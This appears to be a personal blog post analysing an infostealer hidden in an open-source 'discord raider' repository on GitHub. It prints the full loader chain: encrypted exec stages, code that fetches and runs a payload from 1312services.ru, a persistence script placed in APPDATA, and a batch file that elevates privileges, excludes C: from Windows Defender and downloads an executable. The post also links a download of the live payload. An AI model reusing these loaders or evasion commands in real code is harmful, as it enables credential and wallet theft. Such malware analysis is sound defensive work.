 {"title":"Malware hidden within an open source 'discord raider'", "source":"NONE", "date":"8-23-2024", "tags":["cybersecurity","malware"], "description":"Finding the malware hidden in an open source 'discord raider'"}


![This the github repo which contains the malware](/static/11/main.png)

This is the github repo which contains the malware

Hello, I have found something interesting, malware hidden within open source 'discord raider' tools. 

First a quick explanation, a 'discord raider' is a piece of software that spams a server with fake accounts which send messages repeatedly in an attempt to annoy people. These 'tools' are mostly used by 12 year skids, who feel like a master hacker by downloading garbage on to the family computer.

## Part one - github

The github repo for the malware was created about a day ago from writing this, intrestingly enough, the majority of the commits are replacing the single letter in a text file.
The more interesting thing is the account that owns the github repo, one `Michzael-Fuchslocher`, alongside the discord raid repo, they have several other repos, all discord related skid tools. In all of these repos the pattern of the commits being single letter edits continues. I looked at the code for some of these other repos, and they all seem to contain the same malware.

## Part two - the code itself

The main file contains a single line of semi-colon seperated python code, here is what it looks like when the formatting has been fixed.

    #!python
    import os
    os.system('pip install cryptography')
    os.system('pip install fernet')
    os.system('pip install requests')
    from fernet import Fernet
    import requests
    exec(Fernet(b'eORIbqIAo0lgLsUQKh65VDMfpLQ8xTJeOBYNqzILkqc=').decrypt(b'gAAAAABmxNtp4JGXQHPnCdjhaMgtj9NuIVwKOlXS6F_2WmIe3LPVT99J4L_LQTFe7l5E3fxvsHpbwHDOKxE-rr2HZHybMVtOhaDRzcTTmInOhYst6YzoeX8AwdM-3PYCdWDk4S1_EvIe1SjmZcc0N6r86fiT2_keIjsRXlugsw6ji1QUq8K4YV2KNTv0LdE9lQr_t_dKTpszBnN8mg0XElqMPd7UfhlXUQ=='))

You can see that this first payload is attempting to install the librarys `cryptography`, `fernet`, and `requests`. It then imports `Fernet` and `requests` and uses `Fernet` to unencrypt a string, which seems to be the next piece of malware.
This string is then executed by using the builtin `exec()` function.

Replacing the exec with a print gives you this:

    #!python
    exec(requests.get('https://1312services.ru/paste?userid=15').text.replace('<pre>','').replace('</pre>',''))

This payload is quite a lot simpler than the first one, and it can be seen that it gets another payload from `https://1312services.ru/paste?userid=15`, which it then replaces the pre formatted tags.
Then this new payload is also executed.
Again replacing the exec with a print gives you this payload:


    import sys
    import os
    content = """
        import subprocess
        import sys
        subprocess.run(["cmd.exe", "/c", sys.executable, "-m", "pip", "install", "fernet"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        from fernet import Fernet
        exec(Fernet(b'M_ne2Y0BqY6Ba6AupGD9SvRH0bMGU2LsYexHftKoI54=').decrypt(b'gAAAAABmyMTtneMFv9I8mobxRSmO0v9hVnMrW5TBOPHfJDFVt0mKMSps003PQ-...').decode())
    """
    gruppe_path = os.path.join(os.getenv('APPDATA'), 'gruppe.py')

    with open(gruppe_path, 'w') as file:
        file.write(content)

    os.system(sys.executable + " " + gruppe_path)

This payload writes another payload into a file called `gruppe.py` on the `appdata` directory on windows.
After running this payload it writes the `content` variable into that `gruppe` file, which again installs and imports fernet, which is used to decrypt a new payload which is then executed. Also the way that the install script is written, it can be seen that this is windows exculsive malware, due to it using `cmd.exe`.
This new payload is to large to be placed here, but I will link it here:
[Download the payload, THIS IS ACTUALLY MALWARE, the password is 'iknowwhatiamdoing'](/static/11/step5.zip)

This payload seems to be just a generic infostealer, it steals cookies and saved passwords from all browsers, steals crypto wallet files, and injects malware into the `exodus` and `atomic` crypto wallets.
It also steals the telegram data from telegram desktop.
It then sends all of this data to `1312services.ru`, which seems to be to main server in this operation, all the data is also sent with a user id, in this case `15`, this userid is specified in the first payload download from `1312services`.

There is another download of a file called `hvnc.py` which is how they maintain access to your computer. This file contains this:

    import os
    import subprocess

    script = """
    from fernet import Fernet
    import os

    exec(Fernet(b'ocuQXIbJfEWtV8nf7MccHcnFVqT0NzhpK6bBOmmPD68=').decrypt(b'gAAAAABmdbJ2mZ6A1hL6kfHMTO9jOQFHnkBCnwYMNUJRpdTe9LaNihMGPX8FCOMzidgbTHBRia-...').decode())
    """

    appdata = os.environ.get('APPDATA', '')
    if appdata:
        # create microsoft folder if it doesn't exist
        microsoft_folder = os.path.join(appdata, 'Microsoft')
        if not os.path.exists(microsoft_folder):
            os.mkdir(microsoft_folder)
        script_path = os.path.join(appdata, 'Microsoft', 'runpython.py')
        with open(script_path, 'w') as script_file:
            script_file.write(script)
    subprocess.Popen(['python', script_path], creationflags=subprocess.CREATE_NO_WINDOW)

This writes the `script` variable into a file called `runpython.py` in the `Microsoft` folder in the `appdata` folder.
Then `runpython` decrypts and runs a payload which dumps and runs a batch file in the temp directory, this is the batch file:

    #!batch
    @echo off
    set "filePath=%appdata%\Microsoft\emptyfile20947.txt"
    :: BatchGotAdmin
    :-------------------------------------
    REM  --> Check for permissions
        IF "%PROCESSOR_ARCHITECTURE%" EQU "amd64" (
    >nul 2>&1 "%SYSTEMROOT%\SysWOW64\cacls.exe" "%SYSTEMROOT%\SysWOW64\config\system"
    ) ELSE (
    >nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"
    )

    REM --> If error flag set, we do not have admin.
    if '%errorlevel%' NEQ '0' (
        echo Requesting administrative privileges...
        goto UACPrompt
    ) else ( goto gotAdmin )

    :UACPrompt
        echo Set UAC = CreateObject^("Shell.Application"^) > "%temp%\getadmin.vbs"
        set params= %*
        echo UAC.ShellExecute "cmd.exe", "/c ""%~s0"" %params:"=""%", "", "runas", 1 >> "%temp%\getadmin.vbs"

        "%temp%\getadmin.vbs"
        del "%temp%\getadmin.vbs"
        exit /B

    :gotAdmin
        pushd "%CD%"
        CD /D "%~dp0"
    :--------------------------------------

    mkdir "C:\Windows\WinEmptyfold"
    powershell.exe -WindowStyle Hidden -Command "Add-MpPreference -ExclusionPath 'C:'"

    set "temp_file=%TEMP%\RuntimeBroker.exe"

    powershell -command "(New-Object System.Net.WebClient).DownloadFile('https://filebin.sourcepaint.cz/lqb1ilwxwuswzbhv/minor.exe', '%temp_file%')"

    start "" "%temp_file%"

    del /q "%appdata%\Microsoft
    unpython.py"

I am not the best at batch, but from what I can tell it gets admin access and then makes and hides a folder from windows defender, then it downloads a file called `minor.exe` to `RuntimeBroker.exe` in the temp folder.
This exe seems to be the actual persistant part of the malware. It also deletes the `runpython` file from earlier, well it would have, if the author wouldn't have made a typo in the batch folder.

I have not been able to download the executable from the link, I do not think it exists as I have tried switching my user agent aswell, but I am still unable to download the file.

## Part three - conclusion

This seems to be primarly an info stealer with a RAT component as well, if you go to the `1312services.ru` website, you see a login page and a link to a telegram user called `@simswapping`.

![This is the page](/static/11/page.png)
This is the page I was talking about.

This is obviously some sort of info stealer as a service, but from what I saw it is not very well written. The aforementioned typo in the batch file which stops it from deleting the `runpython` file, and, if you download the file from above, you can see that the main payload is poorly written.

I am going to see if I can learn anymore about this stealer, and if I do I will write another blog post, but for now this is all I know.

Goodbye.
